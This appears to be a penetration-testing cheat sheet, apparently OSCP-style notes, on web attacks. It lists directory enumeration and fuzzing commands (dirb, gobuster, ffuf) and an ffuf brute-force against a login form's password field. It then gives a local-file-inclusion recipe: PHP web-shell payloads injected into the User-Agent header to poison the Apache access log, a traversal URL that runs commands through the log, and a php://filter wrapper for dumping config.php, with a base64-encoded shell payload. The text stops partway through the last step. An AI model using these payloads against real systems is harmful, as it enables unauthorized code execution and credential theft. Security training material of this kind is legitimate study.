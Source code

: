 1. Quick scan with default dirb without recusive folder search
`dirb http://IP/ -r`

2. scan for common directories non recursively with gobuster first:
`gobuster dir -u http://ip -w /usr/share/seclists/Discovery/Web-Content/common.txt`

3. then scan recursively within found directories

`dirb http://ip /usr/share/seclists/Discovery/Web-Content/big.txt -X .html,.php,.cgi`

4. finally you can also fuzz the discovered content or anything else within head or requests

`ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://ip/FUZZ` (FUZZ keyword is there where you want to fuzz)

Fuzzing for POST requests

`ffuf -w passwords.txt -u http://192.168.123.52/login.php -H "Content-Type: application/x-www-form-urlencoded" -H "DNT: 1" -H "Upgrade-Insecure-Requests: 1" -d "username=admin&password=FUZZ&debug=0" -H "User-Agent: Fool"  -fr "Failed"`

# Other Web Attacks

## LFI

* detect directory traversal and attempt LFI to get RCE!
* LFI allows executing files (not reading!)
* modify and contaminate some log file
* use LFI to trigger contaminated file

1. Contaminate Logs modifying the request header

`User-Agent: <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?> `

or 

`User-Agent: <?php echo system($_GET['cmd']); ?>`

2. send request to poison

http://10.11.0.xx/

3. access these logs externally (xampp on windows in this case) but without the poisoned header to execute it

`http://10.11.0.xx/menu.php?file=../../../../../../../var/log/apache2/access.log&cmd=whoami`


### PHP wrappers

Use wrappers to bypass filters.

```bash

# lets access LFI and encode the output as base64

curl http://localhost/index.php?page=php://filter/convert.base64-encode/resource=config.php

# decode base64

echo $b64_output | base64 -d

# also possible to achieve RCE

# 1. encode payload 

echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

# 2. use wrapper
```